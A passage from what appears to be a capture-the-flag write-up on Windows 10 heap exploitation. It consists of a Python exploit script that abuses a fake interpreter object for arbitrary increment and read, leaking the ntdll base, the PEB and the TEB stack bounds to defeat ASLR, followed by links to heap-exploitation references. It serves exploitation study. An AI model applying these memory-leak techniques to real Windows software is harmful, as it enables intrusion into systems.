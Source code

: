 ```python
        inc_ctr += 1
        if ctr > 1:
            elems = ' '.join('inc{}'.format(inc_ctr - 1) for _ in range(ctr - 1))
            # dummy string to prevent type checks on targeted fake object at list optimization check
            interp('letarr inc{} {} "" {}'.format(inc_ctr, ctr, elems))
            inc_ctr += 1

    def dec(addr):
        d2 = q2d(addr)
        interp('setarr fake 0x15 {}'.format(d2[0]))
        interp('setarr fake 0x16 {}'.format(d2[1]))
        interp('setarr chunk26 0 chunk0')

    def fetch_as(addr, var):
        d2 = q2d(addr)
        interp('setarr fake 0x15 {}'.format(d2[0]))
        interp('setarr fake 0x16 {}'.format(d2[1]))
        interp('getarr {} chunk26 0'.format(var))

    log.info('Leaking everything else that follows...')

    # leak ntdll from _HEAP->LockVariable->Lock.CriticalSection.DebugInfo pointing inside ntdll.RtlpStaticDebugInfo
    # somewhere at FrontEndHeapStatusBitmap where incrementing won't wreak havoc
    ntdll_leaker = _HEAP + 0x1ec
    inc(ntdll_leaker + 0x8)                 # set type as String (data starts at _HEAP + 0x200)
    inc(ntdll_leaker + 0x11)                # set length as 0x100
    fetch_as(ntdll_leaker, 'ntdll_leaker')  # fetch with refcnt increment
    check = u64(literal_eval(interp('print ntdll_leaker'))[0xc0:0xc8]) - ntdll.symbols['RtlpStaticDebugInfo']
    assert(check & 0xffff in range(0, 0x30*6, 0x30))
    ntdll.base = check & ~0xffff
    log.success('ntdll:      {:016X}'.format(ntdll.base))
    assert(ntdll.base & 0xffff == 0)

    # leak PEB from [&ntdll.TlsExpansionBitMap + 8] == &PEB.TlsExpansionBitmapBits
    PEB_leaker = ntdll.base + ntdll.symbols['TlsExpansionBitMap'] - 0x54
    inc(PEB_leaker + 0x8)               # set type as String (data starts at ntdll.base + ntdll.symbols['TlsExpansionBitMap'] - 0x40)
    inc(PEB_leaker + 0x11)              # set length as 0x100
    fetch_as(PEB_leaker, 'PEB_leaker')  # fetch with refcnt increment
    PEB = u64(literal_eval(interp('print PEB_leaker'))[0x48:0x50]) - 0x240
    log.success('PEB:        {:016X}'.format(PEB))
    assert(PEB & 0xfff == 0)

    # PEB near end of alignment, seems to act weird at 0xfe000 and 0xff000
    if (PEB & 0xff000) in [0xfe000, 0xff000]:
        log.warning("TEB = PEB + 0x1000 may not hold! Trying again...")
        p.close()
        continue

    # leak TEB contents (stack) from PEB + 0x1000
    TEB_leaker = PEB + 0x1000 - 0x14
    inc(TEB_leaker + 0x8)               # set type as String (data starts at TEB)
    inc(TEB_leaker + 0x11)              # set length as 0x100
    fetch_as(TEB_leaker, 'TEB_leaker')  # fetch with refcnt increment
    TEB_data = literal_eval(interp('print TEB_leaker'))
    StackBase  = u64(TEB_data[0x08:0x10])
    StackLimit = u64(TEB_data[0x10:0x18])
    log.success('StackBase:  {:016X}'.format(StackBase))
    log.success('StackLimit: {:016X}'.format(StackLimit))
    assert(StackBase & 0xffff == 0 and StackLimit & 0xfff == 0)
```

[PDBEX]: https://github.com/wbenny/pdbex
[REF1]: https://www.slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-english-version
[REF2]: https://github.com/peleghd/Windows-10-Exploitation/blob/master/Low_Fragmentation_Heap_(LFH)_Exploitation_-_Windows_10_Userspace_by_Saar_Amar.pdf